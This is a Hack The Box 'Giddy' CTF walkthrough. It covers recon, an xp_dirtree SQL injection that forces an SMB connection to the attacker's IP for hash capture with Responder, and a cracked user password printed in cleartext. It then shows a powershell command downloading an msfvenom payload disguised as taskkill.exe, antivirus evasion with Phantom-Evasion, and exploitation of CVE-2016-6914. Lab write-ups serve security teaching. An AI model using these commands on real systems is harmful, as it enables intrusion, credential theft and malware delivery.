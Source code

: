 ```yaml
---
layout: post
title:  "HTB Giddy Windows"
description: Tools and techniques used, powershell, phanton evasion, burpsuite
tags: HTB, phanton-evasion, Ubiquity, bursuite
---
```

# Recon
Nmap scan
```ruby
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Gobuster
![](https://lh3.googleusercontent.com/BI-edrIfyhlFDnmPTGTKrtJ2vQGwXOGjKafUJ2kO5f34UGqlWhoj-9ScJiwiVSFPNaMtaYaMOLWwOREWJs0y8WgWvT_oHBXBDPvu8TqC663NrCrqIwZYZh_xQnNMihwmLxK2_8mcZVDBJTK7DZaYfmMpQWo90psQloOHzhG4LnHaReGebpJM-vak9rqoVHh1U7l0dXrBRtNIEIcLqKY5eBwyVCWGDupR8BY8dEGJbCz0kd1EDdtKj9yVaOYlHfqzgfLOOP3mfGkeiGiMOzl4zoOTxUsPbJqRqXT1x1dFlnoEwVbSPAu8J7CNLYincbEtqWNWrWbHuz85ebqLPPKWVANTRjX04cn4vb5nGE0E-7Amc-S3IByvo7_tNQdrw7K1E5ZYyCEPi2RaCLcIgQeZbe_DPycx_kzhYSGEhrN2tXTjKLdmNMd6DvZT13Sbe1Y5bWX0Ym4kDbIJUJjmU0XQiFEtIm4E48_ZaZWXtjDjbKEKeQ1QqCITD_3W8EDqk1mDV9Eewaj65Uf2pcux2UJ5kkuVhsYVEBiN9jFO0oI7RfyljguHAHQIiAPfRrWBkO86sGRQZaD1uazfZYVbhGpVZRiIJ2SiKKf49nSES6BWrbkLdPpKJz9-Pgd8l_iVvoMc8rH1zBW1HTEc0nz8DcONs2adeQ8qK1et-rBiRwmy_u3muRpEg8DUYzA=w536-h242-no)

Under the remote directory we locate a windows 2016 server access page
![](https://lh3.googleusercontent.com/J6Oz4XAOScSw39O-a6-KMkLwsBofcOeort1WD9Ik1lli9LyX55oQId4XiZj6dQ2x7_ICnke_NpQgWvYCZApPMK4Nh4i5Egos7Y_KAEWjPU8DwiQyR-C7YCpqHknkMNeIp0GNhPJru-Q7x0bDVNaWxX88UKC1LLb3CHujrgkP9fwbnbezU-ZcjbRJGaeKwGUU-C3PfPr6mhiyb7_uLEgiRGMZ-MEgwnsOM9lkvjRT6_9KM69HfCsK6_JE4e3yQ5P7TDrNx2Okh6ZBAcFaeN0Zbxnfg0VUZZEaHTutY1rkG9bBM0wsDp15VsYj9aL8xJCMcww7FML2zzUlKMac6SkMQUXW1DADbniuZRqAzcI_eKUtKKHHyD5wai5iYITnEiUvxxdywY447ApAkoikzvwqMYKx1LvMu2zinFkkUOTNeALFIb5k30Ih6P-a2WSZuja0snQ7daCjkZiGjAg1BHRgEL8Pa1T5Wz1OTjlME8zJjSTXPGvStvcSW0hq9HjflqMFrZRFXGuFxaSt9IbsoyAgfWaEo0KuWEPwA5D4GJjjiCYh2NcEb8Z81ENgg1T_OTjm0iW7HzUDIvM1nH7pmSz2VonwJVXfZrxrO15HBlv4eq1uaySghgWL2U5hKox-AqEJ-s0vbubO5qREwqAaG5y_o9OkoiyDUKoRkSLwzWPgYmY02U5a1V-HKzY=w541-h491-no)

On the mvc directory we locate a web app running

![](https://lh3.googleusercontent.com/OP0WSgijUfKtz7ctVxeVmwpPFXMdRL873voJBnvMfcWmhL643M1Rnr4kabgOOe-oZuniZBdQmlJTIibsZTQYz7z-jBrIrLvT52gBZKt2r1_ls1S1BfQrrimq-4g9Cv4p_27evdQq8EJzE-xM-AeXPkMbun72EBpUirDiQd3A0q_03_HAW-PQve9wYCHhdiCEyjI7KAwLcp3faC8jcLVsWwJqHujrgNdBZr2YV5-U7jQclyDf4oqBMSKeXYJUAC07itY_02QSSueyImCleITGS8lvArh0XmLX3VvJv_6Mn4t-GjHgGun1JJN8oBnyErNdm3H72tQEMCTCbXj5bdV-_HR_nkQgpbh3q6yZGGrxQekYovBEubHvu18hSKnNPrA3yx_FDzP2CuCNGquTcZ24rFq_-JfCsQL2j0RVK1Xwu9EILvR94bDPX68WysVUyLCDqc3TDFAhDdz2CgeRrZpq0L98j-ji5vWigb0pPd6W2mIVo8XmzE1AR6kMBA4USBFQ1r-G3U0ZQyQGgj1jq-22QAkcrs3IPJCn9U_7ztRwTP7FNn1sBpbRwh6Oz-Qvb6nqeQ-GuQ4sCvMD-X9b6ak0i8LLaW1m3qZKtGwDdA_TW2536o29a8aZXjOoNOJkoVtCxhn2MkTUZOkY6cJujOYKMi4YtbMIvtSGR-WcXAnA5cdpF1CnbkVszb8=w299-h539-no)

# Exploitation Method 1 SQL Injection and BURPSUITE
After a little of trial and error we find out that the web app is vuln to SQLinjection:

 `caps--`

We start Burpsuite and we made the following search request to the server "cap--"
![](https://lh3.googleusercontent.com/FKdkzadYk-1azIEIbC2GZSkd5fxsNOqhCyeEkTkxB_4Yx941c-OZCwai5HPN18yS0VnnRgcA60eOt0skhJUp78KVDgQpB8XlL3KAGvW5jEK7nuy2jgvGJqDMzqRQQCLiUOQTzQtiImFWzVOW3XeiaK6D5nivyPfD8RqE35DYt5KaaY-cMix-WGtGUXu-lO7Ox9nMfH8mITBwsSrtftWX9fnjWt8Nv_EBoqH1ZVIk8pkvKJn6-CvPBB_8winhtT5J1b-6OCVvmPmsayglUqGbTyI2hLCLl2_BAz83NvF66gXTflmLiH-54jQgaIwtcSh392ju9Ki08_ya_irKErB7A1XB9_GJMMEOyAb0N5SZi_WD3NnqRzU85igPoXQTKHciuu83Mbxlhh2ptSFDFFuuaAiTbYtN2H92k6sPi3zRedHk4r4EU4Cga1yqekZJvqjnZiv2Yn0nl7eBc2Jf3n6wUCyE79bl0euXwVb5xYA0fb2c5UqX7aFrwvtbQJ5YUoxrKhTmD_gVNowlaKEs-6u1CG0pN2hhUwgnXwBKbEidbpW4fwgmrRifVxE71OA5J7sS5OPSZm6sKLcIb15jFgM8wfLvrPXvYzl4nCDZSo8fbK5jKmDCvOZ_0oQESLLVP5dUC7imqA_EYS4CLoYlZjuDdifwFGQl_HxLz3xdYRfYMVEXWGAJhk4AkMM=w619-h263-no)

We capture the request with Burpsuite and modified to
```ruby
' EXEC master.sys.xp_dirtree'\\10.10.14.34\share--
```
![](https://lh3.googleusercontent.com/JgzHhVf8_J_jIoVDEp9k3eDrOwFggF0FL4sdq2mwJZs4G-02v_qbmFfzf_wteAwV7TEo3lV8qciz992XRqJmHbnA_HWRLWSJMfP6GtXBDe_u6dmlQPrPS7cks-PLGkQOX9sarzCObJe-ZTxpQR_2NKmTnpHlTyL0e5Rdvue4ZBR2p3DAppMIuhFMVAxL2ZitGk7R7979KzBKd37hFRVmuV7bP2ImnMs5_UIz2RZk7aSC1-X42rG_fqyXhppHTSCLl9zyJPi1LMSWCAoc5SXn8eOMz6jL2aj4hcUjh2Il5c0fMj1_0GRVJJKy0AQH6huvbjx1qeJkkx8mUmpbCRTJVanPHw5A7Cr3TGdbBtIf68LX45bqsQI6pDOhrEdSeyOH02lwgiJXyINH99Br7lGSYCUhhawlfJqchaTSXwjPazzz2u34uZVcbvP5qwELgHHweezZu_sa2BAle4YDcfjDdsw_Y1LdcheJi9xvuIjNYY3-H6AUkmxIUkvV94gIPxS5zNiOt2NgWkPctBCMYnXSdlRAtKDXRWiMRQYxcb0Hms7YfhhaATnJWa7EymHlWZYS0kWWZee2vj1dPNB6u-i_w5d02BEuXEilI6wrXF8ty5N84xPiMryWwEJ26UZEIrIw0M7bSQJzOhtjCK5CjIklYCGMS34VfifD1-5koUJM7AY9ldrkYi7UN2A=w502-h45-no)

![](https://lh3.googleusercontent.com/RfSI-hXdwgfsyrLFfiwxWRgtReY_4q5HLxjWxmAy0jN5AYfPjQ4CF-uOndfXwYdjdgN8v16n6d3VbOYRbrgmeCpC5Lm-IiD7oryKIJ9YtOh5uShrOc0Z1cI42y1-yx0H5pHD3cKC8ZtsKU7tmyFaAAwLzx_je79_SimX8kgVWMmckZi1_voGMCKCDF3lLwLGqhdMkzwsj1OttU1yZzVU1CZcer6hArp9AM39m4Yh4HHtvxElTliSTW9G6RixZg5_q9wj1IrUvDZeOlpEkLoKFgyVWPnFlv2-NUNV4FH2Gb9wxzP2KfybS5n5092joMvGOIQSwgvPDBFgW7bZyDlp3QqtRkWqKeLvbZQEZ7tnVMChVvbTAD1wySMxL4W4mrp7rx_7sKIxKngL3-QSic00DjcbKzbcKh03SQSpJlS30ptUCB9jQSjiG6jHme0tHrnRw1jTGU9dz7qzu2fRFI7gzbgqMgg3GCeoXfjYwBBoDVqhWfTF4rEBKPt_dBr3ivuBUNp_6bZzOr8-MhQkIwOgvYbcAeq0x_ehYyGLed5sHIamV-w2n0XSUV1YZCueZ_NQz08HFOz3mUy-yL-waq7HYb5dKIYuNg9vjdzvKpdJa340GJMse-PLc2ke9Gm3oufKIyNuliTJkhl3x4CmP9uar9nCNUWtnGXt3Sg3kEb6Ln26KbEfq8irFGE=w748-h42-no)

Then we forward the request
We run Responder with the -I tun0 option to set up a smbserver to capture NetNTLM hash
![](https://lh3.googleusercontent.com/7q4nGUHEgxE14oi9mRAeGS0V1pjZEhHBk75K_JQo_PmsQItz9yiy4QJXmlWkO9eAE_YuLs5UbQIvQoOWuvB3og7S2b0jRYTbJJi-_EQXAQsp4ILfUFWdiHKJ4slpJ6c_fIA57BSHtWDrLkJ3JKfGla3-bduZ-ay-Aruy6Kxw1ONNHu-wigYF2wxFClBBm8JkLtW9heCYtGEx3IljmHwF7lyvQ2vtZfkzH0wOPKNQWGSScagJNz6ohuuceWRPRp3PKJUqBXATDdVbh0m_MZkNva8ExDVaepuLNUR3XirD5lzVLzasU4riv3fzPzP16NziP-1wMkfJmE-rEzNObmo-wtkiSiTv6L1HII1-kV8O-GrDNYE6ZcFuo2efTr1HbRrUZm38NxaBloymbXJLcwbRxVwAuRnzIq2L6XSY-MJdCRTwVVFBxsa4HZBA7TpD1sQ0r45jqLDC-xywXXvaiKSa7qWdBZb9U3Kqg5xHya6aJ7s0A7bpjRJsUgy8R-l4261GrUBx-RrO2C6w2bxzLr3GG4ecbsYm3MUr58jKS0ddYks-Fl1nFAm7zRyummASwprCUX7A1WK9QRLkFm1KPC-i0qyQ9mAp1BRiXE2FCdOxZlJNBDBW4NQeMxON9Ow3DfEkrxbRJfAxXGfIv_GvR19iUaiw8fkIPmEjNkp9_vCYCLlMIKgCN7V4_C0=w539-h457-no)

![](https://lh3.googleusercontent.com/ph6I7xdJhHJr6bcILHcBgbbMQ9ZaMrlLPNlN8e12uEiVJo5MTQy9YUS6NvbFsyiv5VaYmMj8JIDB9SBaMCcj0Cdc-BWzfpeoUYJM8_gqwGKLa9BakOILWb-A9kDYerni0t4BV6FHH_G-uQ1PuasAozxTjsFXezv2a2HHYUO2ddSXJ1UBnZDxWw7jlG0_PiPFJJjq6QddqpiJqzk-QHDCgfA5l2tiArxATAW41U-pAO-BOqdppe9AR0z6fM43r-FojICbQUSHYl7QlJ6q6OoqwzI-HPKYZyrvs-_jYiNx8bCr-9nok5dwKkraCs3gXgTay8RexTh5y28EIugsLwIdISJbG3f8RuOw-Rt9ypRHiwS1CWLF8Jt-iX5dhtRjquyy_7d3Z8qb7yQI4KXfNSAPIwp6Taf-2MWsQOn7n2AXVZZwh-STuIOPWsbsM2YJVMj-TT1WokFVkF32UxRvM9Xq3NkFERX5cqyLpU1SLjE99PzCCGeGvJkyZNABemguLZs-HzzYdrRZXNsUdBS9EUPp-wNiQJswbtNDEJgv06qiih1dDowMNmCH_jyW4bl_aInZ2KD0dR8Ali35hkv2dn_LfMcJhqMyf9QuYiFGoGEoNmXmldjsLCwpnWPG8Y-zMb8ktDQmZZUPLscXFnKCXDmDOBalex1EiZiZaV2T_55svD5aMH_bnpMzruY=w731-h316-no)


Finally we use John to crack the hash
```ruby
Stacy : xNnWo6272k7x 
```
![](https://lh3.googleusercontent.com/Ld3rfusYNEDBKzkLNI7KzREgoy5dKvJTVa_xIDdkreu97y0MPtE5U5eOhsWU_FzSoMSZiZrln5FeZTJDzm654_SMcJ2jjVL-0NXBd_HBvGDd7y_9qRHYe9ORM_j-5uGhWFGFmZ48vPk0cR90n6Fudfq-76u4OlmqNXpNuLIcxiOdIDRiKps8c0XtBLe3JPshXp7VGXCRp2QxJp1OdROSu30FUnKvovDy8FCAq-irxKricAqo4awKiFA4qcQAsPzMFPllg0D65IHQ4VyCsZaUubG1lkn-hJ5RGqubq3aEEM4oFMGkSSCU0AmZ-YcsMgMq5t7e668uSWrKB77zF3LXiyS9jCojkSNLLXiaL-lVGQU6DMfv09_HKS6oWqKs8fkaQV-jQTO4x7t8W9HioLklHc8fl8kbhAdCvQ4lUtaYEZPbGEYpjskPeyihYado5t5qGaRhP5wLnaGyEf1yu_ymdRICau8tGtMzmk0_1c71BwbAI-Oqi3tpSKF4E8kvDH3r47LeY0g09FI7zNcyNMI_5d3OjT6USIVNhf8JqILbZpu1vx01fLCKkiimyoj8Q7kGOYV3L8QLo4O0H-QdkRB76l-AzjvhaIZXf5guYi-aIWtPSi6qRZKYvVB6D1ZkvHYB0XJq6iscg4wf9bXYsjZmkfXDrOCK8hMkb3uOVWlE1WwUx4Dfy-LSLjY=w966-h213-no)

We use the obtained creds to login into the remote directory
![](https://lh3.googleusercontent.com/yDD038JTEJ9y1yOpW05oY8BZJzHvb1XP_Iu9_ymnk7CRgCnl2zBxFd2yZaJcg-x0Xh6XJ-OsyMOZaZbhfb11K7WCEvYeEKyJkmpkcyzzvSQbF2zelxiQ15FtSqS6Wf_SC5IX7e8rFXnalsOn6WBuD5cx2OOEQjrn5P08UrtPZmdbL4oA2u3ep8RfkOY3Qg5EGo8Tp4OmPCn1VHiqNUaGbRFo0PH2i5frgng_s6S46w1jJ-PYZMaCkHYgDCoRsVTnqvBdPukg4P8lLmicNOWzboFAjkRc_LKlOMtHpUAffNgQDrCOlg2Rf8NdwfmrDT_rcavv8xQZR3m89GCOy90RqOgTeZaA34WB6yy4FkB9ixQETRabyVMhwPgefzOHR27KKCM-QWfqK6j-r0fUYcnvin68w4ekUJnlOvEes3DwTiN3s3-IjDqWjRbEBIBEEibr2tSKTqw-KnYROR_FOmaKzmx4h8BZJiMPx_YafbKR1GokRA8QWCQLAaZDjWuW77zw1bJuL5HqWb62w59WyQjbfbdvRDz5rIJ_bIGUoo1ZUey2-s7wZuSbveggg_o9-2c-xpuD8s4Eu1ZUidzVERWaJgr0IbIUeP4pczltoE0QN5-GPHfPpR9xnwxW2TrhSr7KidL43gj-9vWtIa0DiVL8D5cQ8wMkQAKx4SJYOyFmvOFnTEZ8Mt5uJeQ=w535-h449-no)

![](https://lh3.googleusercontent.com/Q5fYcnepRnM6I4jp6TNaTwG7VjBhqhuKS84h1HMQ3DoiTO-SGhT5ZlcBR3un5pdD20OT4vhvybNQWFbotC14jpLh8wFkSRpYIBbmO7ukHqx7w6zrIkGJqqT1_hTFP4gHwijc3alBUTM0kEa1nOIhO0m5Tb5nXr5KtWduqmKhT19HFIFASBXpagpmzquBaj6DIa_QW-AqxXarzLRW4D5iBXzGZMA9YQgHU3mLgFmhRbyo_NrVfUGxSDIWsmdJmBjP_uL6_exCuksc0Xl4ijh0mNNPnsVW6LtuW0N5Lo5vkUIy_1bvHbHsc_mwg6aHxhtYacGjLGFjVqz-CZ_5hxQ7SkqG4NpwKZRzuuwZMwAnlwcOdFk_lzCgS3KpFX61N4BzavGjLhh3KWLVzpFir8VMkUyuodAj7fW_Y4S-pCV7idZOGzIRG2wUeUtAq5H435M9zEG7T8cLvSHLwLboN409GTzNWzU99oP_1xpvxVtHY2U2mjjTKZiYfeEAYROWiMlLPCXzMG7ewWLgum8Ze18fxXZv0Xd4YHl4_3Z8vcvAFUAEho7HZ2nrnuEgEFq2s9BBDFNam-4tZB7hHn6vUYlJSYAEUgO_Xx97ALKBLOx35cm4ONqxo2l5ykoLXManzSOtz7nK-Kol-pQkRr4EyXYCRnfHoZbUQ1LXRkpId-HDA_R4jNksDJ7siwc=w741-h513-no)



# Privilege Escalation Ubiquiti and Phantom evasion
An find a program called Ubiquiti Unifi Video installed. this program is vulnerable to local priv-esc CVE-2016-6914
![](https://lh3.googleusercontent.com/jPghooY3yguXMcrVvmA8LEc7I-ZScfzCNAl6X1F5dWkI0_c-G6Djplxhw_Y4EOskSCNg8W8APtKfhojobEGsWIcQOxZgFo_xqYgMkt1cF0PnxGJg2RmAbWSDz8JTBkmGupYccgS2U-zpk8hvcGJOCN5cT2z6vhehRjCyfzclK7sQh0QAqLa5uYokB5-oD5_x3nHws5Ld8spcRwS0Vaeq5WrZTpcZrJaPsZ7BI6FPm2RNwAeCSAq8r0qvpo_IjExIy5xuIZWingxMFCs-B82uK3IT8Gj2OEVPIwem_WdhZaV_vwXV05Bh9LLXQ6C8ljQovFYNUqVaMlZd9sg0yLG8HuVdESZlzyHqe0JPkVjnd4U9KH83660eCdOjhn37pA_3AXJ2sshZiofutjlPMFHDr5U4xwVzZgzw-RTBg2CmQOHPbZPS4H5Hd3KiUKatnChfuynJyTvkE5IaAY95b13NLAElYjKX12j7lqzPwaj6wevfHiCBAObfgI8DeRc7jcZEZZAZOYWW5xvpCoxJlkRpwfvszLKDEQHKCn-vQPRffZPIcvHMeeNcf4WesJYJx_T5OEjoRsuHENigT-99kXGVxhN5U9sLk6XDB4nuFL3_0zrRYbpWXB6n6H1Bnp-tcCsRKCy2h9RTFLonuzY1nrgKAAxVIFifGNWQ7geocadX_CDjKmiZdLz6_uk=w742-h365-no)

We create a msfvenom shell and uploaded to the target machine.
```ruby
powershell wget "http://10.10.14.14/taskkill.exe" -outfile "taskkill.exe" 
```
![](https://lh3.googleusercontent.com/e4hKPGYAR4GPRWmWFeNhrJKSE3gmIQJ9T2adSWA3mJ61QoyNQLaiMy8tRG2sp7zpAgM36qyTPqBTdrYDXSlLbDPKUKa6eEY4Etbx1Ym8hYz7epeEL8kO6oTmGl3w0IHkZV3oVE21o8Z4oDDBTb2ef65swOkbhHt2yJir9KrXNUXa9Y1r3AbfkpFMsccbPDzAh5v8by_6Wrh9oTmkrDUuov6vGbuKWa4nQhq7nG-stdb2a5BoMPLjyZIgbXnbQlz1VsBPvu4Y_c36vLwVL4saWDautFm2FGD4M1Qsz45NwvX6BL3Q5TqZKqXuMn656JviWXEvGimiTvYER6YGMxHG74-HWu5KwbsFLQBR-b4rHesXC1_w7mudRv9ILBzlfIQ5y4W4fYIyDxwdxaArB8atBcHCnV7aGV1YaB1PssEHv1KLWYJgZbcOLDivlrsXb_Hpsaw5KRzorZY2euBEGfadgCUaJQi6OvlhJS6CNiI3fGIMmcKZNbw5mG4puPpiB2xrcKg5bKX7JPXSIeatBQYSSfyRhk5Krw8EXUIA9NaOjQPDSmhwrhk43jTpFCeINllvDJkgQKGKFV1ThUBPZeYlt5DyVrtCWofgZamnughSmklLZibDI4QagAuu_8cQLUXANqOrj2K5ji1Xo9tIDohXB8-TMJ3AKLsJ5KQfQdm6H-5eelVSr3DOwpQ=w447-h387-no)

However antivirus detects our malicius shell and blocks its execution.
So to overcome this. We download and install Phantom-evasion

```ruby
https://github.com/oddcod3/Phantom-Evasion
```
![](https://lh3.googleusercontent.com/1ZxmrJhGt1Rj7O6leHhEHYFKUCNIZvuILqErnSWLGdHm9Q0fl89ax3oD-Ec2TiTg8ZiHeq5TXX1rtNkTxoTRoXb-Bld7gCfC58z6iD9ceiAV0-hPOxwngcVD-Bp8zGNnyfd75boGmsQgtaZyRAu5_50rzMktFA49mBj6slFf1Qjj0VUCiFSvDnBEruau5vVTM-K-lqTMxe1Fv7ff56f0WS9512qmmDN5Fn6piI9KwSU8wH4KrasEygBITP-w12j7jDv6MSV2a76Onad4oNJ5wCqkILv1cf846BDa2AL5ufYe-gZiAt55y_qNXxot0mLGfHKWpWljYaEh4hsKS0WAflUryHGYtV1oHvX232DyUVXDUJLXegNThfrGa04puTB9YAq6-_wt7i9fy-wxQRQL4YiR2mrb0dy8cXjwlVeu_0gb90qUnP4wYJhvbU7joJQlHck_2tcf7p815OeV-t1C8-Ca3VYLZSxkixtTRGbTAlPFISSiU-6IYAmSpL2AAUrXIZIhYZBKCZkKqDUaUzCKLrj-u5O3AVNSwU3riS-NXb7M03Gk5LGWQJ7FxkBMv5K4cM1xdkuxCUAE7TpxsB_4Xi_pDaUlS4jbglhEdIMfve-oi45vtmu2Pqd8QzBK5zUflCE6x8c9hRRD6wSalN5fCSpxxo8_TZo49og71wmJjxKjG4u_Mg6b5yo=w758-h456-no)

![](https://lh3.googleusercontent.com/JvQgPIuekgZ7_aCp8e5qNuaepoCSBvAS75mvKRr6FaMPPqA1JYahoOHUbya654H8_8e0biT7Cr3Ochk_IGcJUJnYMdP6zJNHpnpbE89ZxZ_WtxOFu0rhICNAswwWpEMR--TYMDxzaAg2GK9881VE-zxmEuevEsfuv8FzukUI3azBAtgVtcgUbRCF_ktx3sOj7xEe5vhLS7YxPkEW5pQq0VHZ-yEPFe53Fadtg1gFylg7P_EGBcoEO3dInTOW5fXYA7ev7NSz4yUxT3lqZNk7YM2MWhMiq4FMNtjMcGBWziORjE5-mHYRJpGHngQ9eefrIWr0lKyKAOmU5_iGNIM56cMyWAUJKPieYU8uvCjllmUK5MWjeqCcRE347S23KHY4LZDPw6GhQqX_ykz0K826z_bnr_fh_SDWaEOeWTHk2ggV3kokMtUNaolw_4HAyAB5v6cgvAwo2f5ivjmAS2BXSRRfC-fB7C8Q5RneBnpSxD6Kh57pjP8uVS8pfjJDteBvEYRFG_0jW3eKNwAEh4h7jHqWnz_dRRNw8hO5JvtDpC7y34wrAjdFsJHMz-tn356p9GqsWJncI1k-wP5AW_Sopn2N__sYSmEOn4S98Y6omX_iFVbk2WpZc62qvn3dJvJOLEawX05w1E8Zgkvg1GSegN74Q9kb56iMYwsr8y1CAPiJ-045Ymey1YA=w545-h262-no)

![](https://lh3.googleusercontent.com/poOtQCySlDuqcMCqHgnTnP5t-8w50fAk_hnypFKsReRwGCuw1nSJswVz9DbAWbRI0ffJ_GrMbmA8N-S6KOwmRobesY7007gd1HsgHnIZxHi9lkhOpOeFHct1GOB-xKXGlxPj4ni47UDMsba_DnS8eWQiXKf96mLzxFre_lys2WxLOu0oHMX6THXXm6q-7N-vs3Pjc_xFQKatevarF-D1MehIXlY4yxJUxaTCr-JfzNSLk5QxdHcz4CjD2946QQXIETTdsgfLAWwNNalpD5o4vSkoMRpgV0cbE35P1AuOZwCg4CE3pmhESzJj_UM0jHOv7l-rW9TWukTWmx99e4xlD7p1YlZe-vM9K7nIFKAuOZwC0cRQiQiI-YwPErUq-7oBIQdIuhQVwivlVGd4p9MbOqkjxydfr_PW7JgKhmPrANta4uQ2-k8CZz7SolLe2B6wJXXF7z_JkLJJl-PryDpDGwYOLB7bpaGI2f3F65h7qNmSxSY-5rfuEhFkcC0-6BwvZPR_my6vaGrJc9FW5wKLPcuDoB7YFEwtSxwaxiceXrMSS5AOSGYke_19RRyMWpL50HRwyXHTUcO4xNKfk2Bg8fh-agB0iAEXuZkI2Y1FWZh-ZpvTTrOh_ybqj_8BiPi0-tKWujxSTYi062T9VxV_uycykAVESPfYvQ83NovBZP4tTjxAt804T3k=w748-h299-no)
![](https://lh3.googleusercontent.com/YPgKlq21fNw2vIMg33yvP9XA26cvybgzgQYOR_tnaArTcEP_TMptEb2J8gxulQyyKctYTmURd1trE0ZOQ08AiyqNXWqw0hXtmDvooDv52MNDozE-a7z1QueTGVffOGps18nEtnFj7dEG2XS_dEc5-sGwv1ri4qQq4jp9Jd5PdsGv49XuuPwPh7SK-M9W-tOfpp28S4Sdzzlazu9996IZ31sdvIJueHosprbambqqS3LDv7hVcapWT5CkCbWIpKTbKvdm2mt8w1BrX1gT7PvfrEIUiaLbfHmXM5or3WGYo1Jqz0hu8YvSUtGJW1qP0AqTLcLf9AV0EH5yq5R0BvjTgpyXTvpgcIjKyUt6e6SGv-YsTNMZ4BzaXQTq5w89vvJbW4EW7Pld5r52Re5MFnjqA_8Pr9G5lojeiPUEuDWm4L9QXc6iL3_BAyz7XQpSg-5qS7dbtw_tuZu2XyVluvpcaDabGf1V_YV_rR7XvONtFwgK9ae-RoOl6FYn81Jfzf4yuVoM00HIOzOPSr3AzRYmO8yzDEBcuOsM9B1-pQaTzgFqTox0QDMfULga0hjjUEkcrjpiezQnTekVNUh8tVZ1Lh1m_DQM8NvNDJ2mYcCRgnhNCMinmgNmGi58RkIQhLhyc1I20DbJkB7SLzlXNAiCaSHwIUgzY1GE_yvNAkVPa9f_4jHU-bHWzo4=w824-h452-no)

![](https://lh3.googleusercontent.com/nWKEsswWjm6zdZAcAdRTsu83ToTSgU6pZZpwrRYPs9MgFDqFnBoUYWZbNj-lxsi1vEw0FVoZMRUHqgrRShMNGhT8iOrOEXOOmhne-tLmzQv4L3q_XdtWyDiO3w1FqphtXtcuRoNhUWOSvYyTh6F1ht6m8kteBpjKz9k_pZI8_Xw1XjQqd7LvXOCLYCHpByWhTvuLXOxm-HegFM6NLOZmbdV61Jz-DaAdmCiSp72lbQr1YOY-y0OX9hk9nwn3tevnBKFDDoT6u-Y9Q-ItJl_IIQy8euAoOqXLB62ajo6rEBDuvzv_nAhjorzupaPz4-XVjr1pFmG2ahxzcZO1Y6FLTIZ-r412SXk3dWkmvmBQzcLrq_HZlnl9hg6zLTZcyyEKBVp-LUPz5mrJ3pQECRL_YbmaIi8MmNJ0GRJW_NlchlhBFW28-SKX1P6zaeC1q8RGeMJyGnXK58dfgA55ziJN8TAmfw5uz4iMYGE6YXJNYpkvYGKBb0QwjhVxprVn-omFmZUTWjWnWvlZkG25pF7q82Pfr2-tw0pv56f_9CNlzsbdaAGRGzml3O1Xdz9MF2G6rY8BhiDnDmSmGPakl8kcK0mhFKEIZFkmxY3oFQyWzSvHs2g8A6P0dMeN0lpa9iDG93TDP-MSd-AO53i8vaTertnXERoGLXNE0d_rbcIiPGdqfvFk3AyR_jA=w674-h517-no)


We create and upload to our target machine a x64 bit msfvenom payload "taskkill.exe"
```ruby
powershell wget "http://10.10.14.14/taskkill.exe" -outfile "taskkill.exe" 
```
![](https://lh3.googleusercontent.com/e4hKPGYAR4GPRWmWFeNhrJKSE3gmIQJ9T2adSWA3mJ61QoyNQLaiMy8tRG2sp7zpAgM36qyTPqBTdrYDXSlLbDPKUKa6eEY4Etbx1Ym8hYz7epeEL8kO6oTmGl3w0IHkZV3oVE21o8Z4oDDBTb2ef65swOkbhHt2yJir9KrXNUXa9Y1r3AbfkpFMsccbPDzAh5v8by_6Wrh9oTmkrDUuov6vGbuKWa4nQhq7nG-stdb2a5BoMPLjyZIgbXnbQlz1VsBPvu4Y_c36vLwVL4saWDautFm2FGD4M1Qsz45NwvX6BL3Q5TqZKqXuMn656JviWXEvGimiTvYER6YGMxHG74-HWu5KwbsFLQBR-b4rHesXC1_w7mudRv9ILBzlfIQ5y4W4fYIyDxwdxaArB8atBcHCnV7aGV1YaB1PssEHv1KLWYJgZbcOLDivlrsXb_Hpsaw5KRzorZY2euBEGfadgCUaJQi6OvlhJS6CNiI3fGIMmcKZNbw5mG4puPpiB2xrcKg5bKX7JPXSIeatBQYSSfyRhk5Krw8EXUIA9NaOjQPDSmhwrhk43jTpFCeINllvDJkgQKGKFV1ThUBPZeYlt5DyVrtCWofgZamnughSmklLZibDI4QagAuu_8cQLUXANqOrj2K5ji1Xo9tIDohXB8-TMJ3AKLsJ5KQfQdm6H-5eelVSr3DOwpQ=w447-h387-no)

We proceed to set up multi/handler to catch out shell
